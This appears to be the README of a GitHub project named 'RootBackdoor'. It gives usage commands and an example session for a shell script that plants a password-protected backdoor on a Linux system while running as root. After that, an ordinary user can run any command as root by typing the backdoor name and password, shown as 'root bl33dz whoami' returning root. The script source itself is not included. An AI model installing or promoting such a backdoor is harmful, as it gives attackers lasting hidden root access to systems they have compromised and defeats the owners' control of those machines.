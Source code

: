 # RootBackdoor

Usage:
```
# chmod +x backdoor.sh
# ./backdoor.sh <backdoor> <password>
```

As non-root user run:
```
$ <backdoor> <password> <command>
```

Example:
```
root@machine:~# ./backdoor.sh root bl33dz
root@machine:~# su user
user@machine:~$ whoami
user
user@machine:~$ root bl33dz whoami
root
```
